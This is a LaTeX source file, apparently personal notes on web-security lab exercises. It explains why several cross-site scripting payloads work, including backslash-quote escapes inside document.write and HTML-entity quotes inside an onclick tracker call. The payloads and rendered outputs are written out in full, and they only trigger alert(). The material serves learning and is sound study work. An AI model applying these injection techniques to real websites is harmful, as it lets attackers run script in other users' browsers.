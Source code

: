 \documentclass{article}
\begin{document}
\begin{itemize}
	the payloads worked 
	  	    \begin{lstlisting}[frame=single]
\'-alert(1)//  or  \'&alert(1)//  or  \'|alert(1)//  or  \'+alert(1)//
            \end{lstlisting}
\underline{Why It Worked:}
\\The backslash \verb|\| before the quote \verb|\'| becomes \verb|\\'| This means just backslash + quote $\Longrightarrow$ \verb|\'| \\When encodeURIComponent(searchTerms) processes \verb|\';alert()//| $\Longrightarrow$ It becomes: \verb|%5C';alert()//| where \verb|%5C| is the URL-encoded backslash \\Now Final document.write() Output is 
	  	    \begin{lstlisting}[frame=single]
document.write('<img src="/resources/images/tracker.gif?
searchTerms=%5C';alert()//">');
            \end{lstlisting}
Which renders as HTML:
	  	    \begin{lstlisting}[frame=single]
<img src="/resources/images/tracker.gif?searchTerms=\';alert()//">
            \end{lstlisting}
            The browser sees this HTML and the single quote ' in the URL then Closes the src attribute at searchTerms=\ and XSS trigger by The remaining \verb|';alert()//"| \\
\rule{5cm}{0.4pt}
  \item \textbf{\underline{Payload Explaining}}
  \vspace{0.25cm}
\\the payload $\Longrightarrow$ \verb|http://foo?&apos;-alert(1)-&apos;|
\vspace{5px}
\\ \underline{Why It Worked:}
The payload exploits HTML entity decoding and JavaScript type coercion:
\begin{lstlisting}[frame=single]
Original Input: http://foo?&apos;-alert(1)-'
After HTML Decoding: http://foo?'-alert(1)-'
\end{lstlisting}
Original JavaScript Context:
\begin{lstlisting}[frame=single]
tracker.track('http://foo?&apos;-alert(1)-'')
\end{lstlisting}
After HTML Decoding:
\begin{lstlisting}[frame=single]
tracker.track('http://foo?'-alert(1)-'')
\end{lstlisting}
JavaScript Interpretation:
\begin{lstlisting}[frame=single]
'http://foo?' - alert(1) - ''
\end{lstlisting}


\end{itemize}
\end{document}
